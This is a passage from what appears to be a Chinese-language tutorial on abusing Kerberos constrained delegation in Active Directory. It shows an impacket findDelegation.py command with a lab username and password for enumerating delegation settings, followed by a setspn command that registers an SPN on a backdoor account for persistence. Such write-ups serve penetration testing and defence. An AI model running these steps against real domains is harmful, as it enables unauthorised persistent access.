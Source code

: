 <img src="image/image-20231007220143871.png" alt="image-20231007220143871" style="zoom:80%;" />

也可以使用impacket工具包`findDelegation.py`找出所有的委派配置

```sh
findDelegation.py -dc-ip 192.168.1.250 -target-domain y5neko.com y5neko.com/user1:win71@123
```

<img src="image/image-20231007220756334.png" alt="image-20231007220756334" style="zoom:80%;" />

#### 利用（后门）

约束委派可以作为变种黄金票据，用作后门权限维持。
给后门账户[知道密码或是hash就成]注册SPN:

```sh
setspn -U -A yueshu1_test/win71 yueshu1
```
